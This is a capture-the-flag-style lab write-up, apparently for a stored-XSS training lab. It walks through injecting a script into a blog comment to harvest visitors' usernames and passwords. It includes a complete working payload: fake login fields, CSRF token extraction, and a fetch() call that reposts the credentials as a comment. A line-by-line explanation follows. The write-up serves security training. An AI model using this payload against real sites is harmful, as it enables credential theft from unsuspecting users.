 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's credentials, then use it to log in to the victim's account.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim post their credentials within a blog comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <input type="text" name="username">
  <input type="password" name="password" onchange="hax()">

  <script>
  function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf',token)
  data.append('postId',5);
  data.append('comment',`${username}:${password}`);
  data.append('name','chris');
  data.append('email','chris@01.com');
  data.append('website','http://www.chris.com');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
  });
  }
  </script>

- Note: Change the postId parameter according to the post where you're commenting.
- This script is designed to exfiltrate the victim’s username and password by leveraging a vulnerable comment form. The form fields `<input name="username">` and `<input name="password">` capture user credentials. When the user types a password, the onchange event triggers the `hax()` function.
- Inside `hax()`, the script extracts:
  - The CSRF token from a hidden input `(name="csrf")`,
  - The values of the username and password fields.
- It then constructs a `FormData` object, which includes:
  - The CSRF token,
  - The stolen credentials formatted as username:password in the comment field,
  - Dummy name, email, and website values.
- Finally, it sends this data using a `fetch()` request to the vulnerable site’s `/post/comment` endpoint. Since `mode: 'no-cors'` is used, the browser won’t block the request, though you won’t see a response in the console. The credentials are silently submitted and saved as a comment on the post.
